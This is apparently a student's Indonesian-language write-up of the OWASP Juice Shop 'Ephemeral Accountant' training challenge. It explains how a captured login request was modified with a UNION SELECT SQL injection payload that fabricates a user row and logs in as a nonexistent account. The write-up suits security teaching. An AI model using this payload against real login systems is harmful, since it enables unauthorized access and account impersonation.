


# Soal Ephemeral Accountant

**Description:** Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.

**Resource:** https://demo.owasp-juice.shop/#/score-board?categories=Injection&showDisabledChallenges=false

## Langkah Pengerjaan:
1. Dengan menggunakan BurpSuite, saya bisa mendapatkan request yang dikirimkan oleh web untuk login

2. Dengan melakukan modifikasi pada request tersebut saya bisa membuat seolah-olah, akun yang sebenarnya tidak ada menjadi ada untuk beberapa saat ketika query dikirimkan
```
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'halohalo' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "halohalo"
}
```
3. Berhasil login dengan akun sementara yang sebenarnya tidak pernah ada pada website



Soal ini berhasil diselesaikan dengan mengikuti petunjuk pada write-up di https://github.com/Whyiest/Juice-Shop-Write-up/blob/main/4-stars/ephemeral_accountant.md